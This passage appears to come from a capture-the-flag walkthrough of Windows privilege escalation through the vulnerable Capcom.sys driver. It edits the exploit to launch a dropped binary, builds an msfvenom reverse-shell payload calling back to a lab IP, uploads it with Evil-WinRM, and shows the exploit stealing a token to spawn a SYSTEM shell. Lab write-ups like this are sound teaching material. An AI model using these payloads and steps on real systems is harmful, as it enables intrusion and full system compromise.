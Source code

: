         CloseHandle(ProcessInfo.hThread);
        CloseHandle(ProcessInfo.hProcess);
        return true;
    }
    

I’ll change the `CommandLine` string to:

    
    
    TCHAR CommandLine[] = TEXT("C:\\ProgramData\\0xdf.exe");
    

Now I can just drop a payload at `C:\programdata\0xdf.exe` and it will be run
as SYSTEM.

#### Generate Payload

I could compile my own payload since I’ve already got Visual Studio open, but
I’ll opt for a simple `msfvenom` payload. I’ll use
`windows/x64/shell_reverse_tcp` to get a reverse shell I can handle with `nc`:

    
    
    root@kali# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f exe -o rev.exe
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 460 bytes
    Final size of exe file: 7168 bytes
    Saved as: rev.exe
    

#### Execute

Now I’ll upload the two executables:

    
    
    *Evil-WinRM* PS C:\programdata> upload rev.exe 0xdf.exe
    Info: Uploading rev.exe to C:\programdata\0xdf.exe
    
    
    Data: 9556 bytes of 9556 bytes copied
    
    Info: Upload successful!
    
    *Evil-WinRM* PS C:\programdata> upload ExploitCapcom.exe
    Info: Uploading ExploitCapcom.exe to C:\programdata\ExploitCapcom.exe
    
                                                                 
    Data: 363860 bytes of 363860 bytes copied
    
    Info: Upload successful!
    

To run it, I just need to run the `ExploitCapcom.exe` binary with my `nc`
listener waiting:

    
    
    *Evil-WinRM* PS C:\programdata> .\ExploitCapcom.exe
    [*] Capcom.sys exploit
    [*] Capcom.sys handle was obtained as 0000000000000080
    [*] Shellcode was placed at 000001D1FD540008
    [+] Shellcode was executed
    [+] Token stealing was successful
    [+] The SYSTEM shell was launched
    [*] Press any key to exit this program
    